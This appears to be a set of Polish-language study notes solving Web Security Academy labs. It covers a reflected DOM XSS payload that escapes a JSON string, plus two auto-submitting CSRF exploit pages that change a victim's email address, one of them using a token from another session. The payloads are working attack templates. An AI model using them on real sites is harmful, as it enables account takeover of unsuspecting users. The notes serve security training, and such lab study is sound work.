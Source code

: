 ## Lab: Reflected DOM XSS
1. Patrzymy na zwracaną wartość:
```
{"results":[],"searchTerm":"podana_wartość"}
```
2. Widzimy jakie znaki są escapowane, podajemy wartość:
```
\"-alert(1)}//
```
3. Co zamienia się w:
```
"\\"-alert(1)}//"
```
i mamy:
```
{"searchTerm":"\\"-alert(1)}//", "results":[]}
```

# CSRF

## Lab: CSRF vulnerability with no defenses
### Skrypt zmieniający adres e-mail:
```
    <html>
        <body>
            <form action="https://0ac4006304f120fbc02b4be100cd00c7.web-security-academy.net/my-account/change-email" method="POST">
                <input type="hidden" name="email" value="pwned@evil-user.net" />
            </form>
            <script>
                document.forms[0].submit();
            </script>
        </body>
    </html>
```
## Lab: CSRF where token is not tied to user session
1. Generujemy CSRF dal użytkownika, wysyłając zapyanie o zmiane maila, zapisujemy je i dropujemy request
2. Sprawdzamy na drugim użytkowniku że podniana jego tokenu na ten działa
3. robimy skrypt, który uruchamia zminae maila z dodanym wcześniej wygenerowanym tokenem
```
    <html>
        <body>
            <form action="https://0a7400fb04acc082c085a8ac00ef0031.web-security-academy.net/my-account/change-email" method="POST">
                <input type="hidden" name="email" value="pwned@evil-user.net" />
                <input type="hidden" name="csrf" value="T27pLkAbqM1BfdJFpw8mEzkHWkTtIM0O" />
            </form>
            <script>
                document.forms[0].submit();
            </script>
        </body>
    </html>
```
